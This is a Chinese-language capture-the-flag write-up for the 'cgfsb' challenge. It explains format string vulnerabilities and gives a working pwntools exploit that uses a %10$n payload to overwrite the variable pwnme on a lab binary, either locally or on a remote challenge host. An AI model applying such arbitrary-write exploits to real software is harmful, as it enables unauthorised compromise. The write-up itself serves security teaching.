




# 攻防世界: cgfsb

## **[目标]**
利用格式化字符串漏洞，造成任意地址写。

## **[环境]**
Ubuntu

## **[工具]**
gdb、python、pwntools, IDA

## **[过程分析]**

- 我们先看一下这道题的逻辑：



- 输入 name，返回 name； 输入message，返回message。

- 从ida中查看伪代码：



- 利用过程：通过格式化字符串漏洞，将 pwnme 的值修改成8。

简单的介绍一下格式化字符串漏洞的知识点：

* %n 将当前已打印字符的个数（4个字节）
* %<正整数n>$< fmt>指定占位符对应第n个参数，例如：%12$x，此处%x对应第12个参数。


- 通过 ida 查看汇编代码 找到`call printf`的地址（调用printf(&s)）。之后我们用gdb进行调试，在调用printf(&s)之前下一个断点,查看接收 message 的变量 s 是格式化字符串的第几个参数。输入 message 的时候输入 ‘aaaa’。



- 查看当前栈中的内容。



- 这个我们可以通过 输入message的时候，把 pwnme的地址（在ida中点击伪代码中的pwnme就能查看到了） 写到这个位置，然后把这个地址的值修改成8（利用格式化字符串漏洞的任意内存写）。我们就可以构造出下面的payload啦：

```
# pwnme的地址+aaaa 凑出8个字节，这样就可以在10$的位置 写入8（四个字节）改变pwnme的值。

payload =  p32(pwnme_addr) + 'aaaa%10$n' 
```

完整的exp：

```
from pwn import *

context.log_level = 'debug'
DEBUG = int(sys.argv[1])

if DEBUG == 1:
    p = process('./cgfsb')
else:
    p = remote('10.10.49.194', 30147)

pwnme_addr =  0x0804A068

payload1 =  "ABCD"
payload2 =  p32(pwnme_addr) + 'aaaa%10$n'

p.recvuntil('please tell me your name:\n')
p.sendline(payload1)

p.recvuntil('leave your message please:\n')
p.sendline(payload2)

print p.recv()
print p.recv()

```

本地：

```
python exp.c 1
```

远程：

```
python exp.c 0
```

## **[参考阅读]**

[格式化字符串漏洞](https://www.anquanke.com/post/id/85785)

[pwntools文档](https://pwntools.readthedocs.io/en/stable/)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)

《IDA Pro权威指南》
 


